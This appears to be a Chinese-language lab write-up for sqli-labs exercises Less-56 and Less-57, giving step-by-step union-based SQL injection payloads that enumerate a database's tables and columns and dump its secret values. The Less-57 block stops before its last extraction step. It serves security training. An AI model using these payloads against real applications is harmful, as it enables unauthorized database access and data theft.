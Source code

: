 ```
```

#### 

## Less-56

**联合查询注入(十四次限制)-'）**

#### 

```
#判断得知为字符型注入:
?id=1') and 1=1 --+

#判断字段数
?id=1') order by 3 --+

#爆当前数据库和用户名
?id=0') union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0') union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/k4slr3jkz6/

#爆字段
?id=0') union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='k4slr3jkz6' --+

#字段也是随机/secret_OBJS/

#爆数据，取/secret_****/段为过关数据
?id=0') union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_OBJS) from k4slr3jkz6 --+
```

#### 

# Less-57

**联合查询注入(十四次限制)-"**

#### 

```
#判断得知为字符型注入:
?id=1" and 1=1 --+

#判断字段数
?id=1" order by 3 --+

#爆当前数据库和用户名
?id=0" union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0" union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/4wlhf91tdn/

#爆字段
?id=0" union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='4wlhf91tdn' --+

#字段也是随机/secret_WCBG/
```
